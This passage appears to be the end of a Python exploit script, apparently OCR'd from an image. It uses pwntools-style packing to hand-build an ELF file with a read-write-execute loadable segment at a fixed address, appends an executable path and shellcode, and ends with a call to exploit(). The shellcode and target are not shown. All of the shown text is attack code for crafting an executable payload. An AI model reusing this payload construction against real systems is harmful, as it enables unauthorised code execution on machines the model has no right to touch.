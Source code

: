 ```python
    #   we load the whole binary into memory at the target address 0x10000
    #   and use the shellcode to write the executable's path there at runtime

    # type: PT_LOAD
    elf += p32(1)
    # protection flags: rwx
    elf += p32(4 | 2 | 1)
    # offset in file
    elf += p64(0)
    # virtual address
    elf += p64(addr)
    # physical address
    elf += p64(addr)
    # size in file
    elf += p64(0x38 * 4 + len(exe) + 1 + len(shellcode))
    # size in memory
    elf += p64(0x38 * 4 + len(exe) + 1 + len(shellcode))
    # alignment
    elf += p64(0)

    # append executable name and shellcode
    elf += exe + '\0' + shellcode

    return elf


if __name__ == '__main__':
    exploit()

```
